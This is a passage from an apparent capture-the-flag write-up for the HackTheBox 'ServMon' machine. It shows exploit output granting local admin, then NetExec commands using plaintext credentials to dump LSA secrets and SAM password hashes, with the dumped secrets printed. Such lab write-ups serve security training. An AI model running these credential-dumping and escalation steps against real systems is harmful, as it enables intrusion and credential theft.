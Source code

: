 ```console
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
```

It works:

```powershell
PS C:\Users\Nadine> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Nadine
The command completed successfully.
```

I had a hard time getting an admin shell, even given the success above. For example, I suspect there's some AV on this target (Defender, etc.) because any reverse shell payloads get removed from the disk right away. A lot of the CIM queries fail for insufficient access. I can't trigger an NTLM callback to `responder`, for some reason.

So, I decide I need the Administrator's hash.

```console
$ nxc smb servmon.htb -u nadine -p 'L1k3B1gBut7s@W0rk' --lsa
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [+] Dumping LSA secrets
SMB         10.10.10.184    445    SERVMON          SERVMON\Nathan:To0M4nyS4ndw1ch35
SMB         10.10.10.184    445    SERVMON          dpapi_machinekey:0x5029be2d110d061e856496ac6c10595d5f75cf27
dpapi_userkey:0xeae6f93f35f9668e366a959938c97e4a8b54cfc2
SMB         10.10.10.184    445    SERVMON          NL$KM:73629c30538cac86add0035b666feaed318455b9def82ca6d513ce4a8d889e19cb76dd9ccc1e5e3d790c072dd348a8eeec511dd9a90ee06004521b82299d6d48
SMB         10.10.10.184    445    SERVMON          [+] Dumped 3 LSA secrets to /home/e/.nxc/logs/SERVMON_10.10.10.184_2024-09-30_094424.secrets and /home/e/.nxc/logs/SERVMON_10.10.10.184_2024-09-30_094424.cached
```

Still no Administrator. I try SAM:

```console
$ nxc smb servmon.htb -u nadine -p 'L1k3B1gBut7s@W0rk' --sam
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [*] Dumping SAM hashes
SMB         10.10.10.184    445    SERVMON          Administrator:500:aad3b435b51404eeaad3b435b51404ee:c8bbef7fd5afe37cbb1aee2264a75fee:::
...
```
